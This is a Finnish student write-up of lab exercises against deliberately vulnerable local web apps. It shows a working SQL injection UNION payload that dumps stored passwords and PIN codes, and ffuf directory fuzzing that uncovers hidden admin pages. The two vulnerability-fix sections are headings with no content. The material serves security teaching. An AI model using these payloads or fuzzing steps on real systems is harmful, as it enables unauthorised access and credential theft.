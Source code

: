# H2 Break & unbreak
## Ympäristö
- Windows 11 PC
- Vmware workstation pro 17
- [Kali linux VMware image](https://www.kali.org/get-kali/#kali-virtual-machines)

## x)

## a) Murtaudu 010-staff-only. Hack'n Fix
### Tehtävän alustus
Aloitetaan lataamalla tehtävät
```GNOME
wget https://terokarvinen.com/hack-n-fix/teros-challenges.zip
unzip teros-challenges.zip
```
Siirrytään kansioon ja käynnistetään tehtävän verkkosivu
```GNOME
cd challenges/010-staff-only/
python3 staff-only.py
```
![part1](/kuvat/staff-only1.png)
### Ratkaisu
 - Avataan sivu verkkoselaimessa, esim Mozilla firefox http://127.0.0.1:5000/
 - Avataan Element picker **Ctrl+Shift+C**
 - Tutkimalla verkkosivua huomataan, että pinkoodien takana oleva lomake vaatii **numeroita!**
 - Ei hätää, sen voi vaatimuksen voi vain poistaa **web developer toolssissa**

 ![part2](/kuvat/staff-only2.png)
 - Tämän jälkeen lomakeesta voi lähettää stringin!
 - Luin tehtävää varten [portswiggeristä](https://portswigger.net/web-security/sql-injection/union-attacks) artikkelin **UNION** hyökkäyksistä joiden avulla voidaan sql injektiossa lähettää toinen haku sql tietokantaan
 - Piippu operaattorilla | | saadaan lisämausteena korkattua myös pinkoodit salasanojen kanssa  
 ```
 ' UNION SELECT password || '~' || pin FROM pins --
 ```
- Your password is **SUPERADMIN%%rootALL-FLAG{Tero-e45f8764675e4463db969473b6d0fcdd}~11112222333**
- Lisäämällä **LIMIT** operaattori voidaan käydä tietokantaa läpi
```
' UNION SELECT password || '~' || pin FROM pins LIMIT 2,1 --
```
-  foo~321
-  loremipsum~321


## b) Korjaa 010-staff-only haavoittuvuus lähdekoodista. Osoita testillä, että ratkaisusi toimii.

## c) Ratkaise dirfuzt-1 artikkelista Karvinen 2023: Find Hidden Web Directories - Fuzz URLs with ffuf.
### Tehtävän alustus
 - Avaa terminaali ja lataa tehtävä
```GNOME
wget https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/dirfuzt-0
chmod 744 dirfuzt-0
./dirfuzt-0
```
 - Seuraavaksi ladataan lista stringejä jota ffuf voi käydä läpi

 ```GNOME
 wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt
 ```

 - Avataan uusi terminaali jossa käytämme ffuf työkalua, joka toimitetaan nykyään kali linuxin mukana
 - "-w" operaattorilla tarjotaan ffufferille lista sanoja (Tässä tapauksessa common.txt)
 - "-u" operaattorilla taas tarjotaan url mistä ohjelma tutkii sivuja muutujan avulla FUZZ 
 - ffuf siis korvaa muuttujan FUZZ arvon jokaista common.txt stringiä kohden

 ```GNOME
 ffuf -w common.txt -u http://127.0.0.2:8000/FUZZ
 ```
![ffuf1](/kuvat/ffuf1.png)
 - ffuf on tulostanut kaikki 4750 vaihtoehtoa ja huomataan tulosteissa yhtäläisyyksiä
 - Käydään tarkistamassa muutama url http://127.0.0.2:8000/.env ja http://127.0.0.2:8000/.git

 ![ffuf2](/kuvat/ffuf2.png)
 - Sivut ovat saman kaltaisia.
 - ffufilla voidaan filtteröidä tuloksia eri operaattoreilla, käytämme seuraavaksi "-fs" filter size operaattoria filtteröimällä pois kaikki sivu joiden merkkikoko on **132**
 ```GNOME
  ffuf -w common.txt -u http://127.0.0.2:8000/FUZZ -fs 132
 ```
 - Täten saadaan huomattavasti tiiviipi tuloste

 ![ffuf3](/kuvat/ffuf3.png)
 - Huomataan että urlissa http://127.0.0.2:8000/admin löytyi sivu jossa on 160 merkkiä, käydään katsomassa.
 
 ![ffuf4](/kuvat/ffuf4.png)


## d) Murtaudu 020-your-eyes-only. Hack'n Fix
### Tehtävän alustus
 - Avataan tehtävä ja ladataan virtualenv 
 ```GNOME
 cd ~
 cd challenges/020-your-eyes-only/
 sudo apt-get -y install virtualenv
 virtualenv virtualenv/ -p python3 --system-site-packages
 ```
 - Aktivoidaan virtualenv
 ```GNOME
 source virtualenv/bin/activate
 ```
 - Ladataan django minkä avulla tehtävän sivusto pyörii
 ```GNOME
cat requirements.txt
pip install -r requirements.txt
 ```
 - Alustetaan tietokanta ja käynnistetään django
 ```GNOME
  cd logtin/
  ./manage.py makemigrations; ./manage.py migrate
  ./manage.py runserver
 ```
 ![020-1](/kuvat/020-1.png)

 - Käydään katsomassa miltä sivusto näyttää
 
 ![020-2](/kuvat/020-2.png)

 ### Tehtävän ratkaisu
  - Avataan uusi terminaali ja hyödynnetään ffuferia kuten edellisessä tehtävässä.
  ```GNOME
   ffuf -w common.txt -u http://127.0.0.1:8000/FUZZ
  ```
  ![020-3](/kuvat/020-3.png)
  - ffuf löysi /admin-console päätteisen sivun, käydään katsomassa

  ![020-4](/kuvat/020-4.png)
## e Korjaa 020-your-eyes-only haavoittuvuus. Osoita testillä, että ratkaisusi toimii.
